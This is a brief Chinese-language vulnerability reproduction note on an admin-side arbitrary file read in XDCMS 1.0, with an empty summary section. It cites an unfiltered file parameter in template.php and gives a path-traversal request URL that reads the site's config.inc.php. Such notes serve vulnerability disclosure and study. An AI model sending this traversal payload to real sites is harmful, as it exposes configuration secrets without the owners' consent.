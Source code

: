 ```yaml
---
title: "XDCMS 1.0 后台任意文件读取"
id: zhfly3276
---
```


# XDCMS 1.0 后台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![image](../img/ced7418c2d9685d6d7b5d4c0e809a470.png)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

```
http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php 
```

后台任意文件读取。

![image](../img/1673cce9c0c4275cd3e54abc181cb3fa.png)
